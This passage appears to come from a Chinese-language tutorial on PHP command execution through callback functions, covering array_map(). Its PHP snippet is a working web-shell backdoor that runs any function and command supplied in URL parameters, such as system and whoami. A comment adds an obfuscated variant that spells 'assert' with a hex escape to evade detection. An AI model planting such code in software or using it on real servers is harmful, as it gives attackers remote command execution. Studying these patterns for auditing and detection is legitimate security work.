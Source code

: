 ![Alt text](3.png)
### 4.array_map()
　　　array_map() 函数将用户自定义函数作用到数组中的每个值上，并返回用户自定义函数作用后的带有新值的数组。 回调函数接受的参数数目应该和传递给 array_map() 函数的数组数目一致。
```php
<?php
//?func=system&cmd=whoami
$func=$_GET['func'];
$cmd=$_GET['cmd'];
$array = array("$cmd","1");
$new_array=array_map($func,$array);
//print_r($new_array);
//<?php array_map("ass\x65rt",(array)$_GET['cmd']);?>
?>
```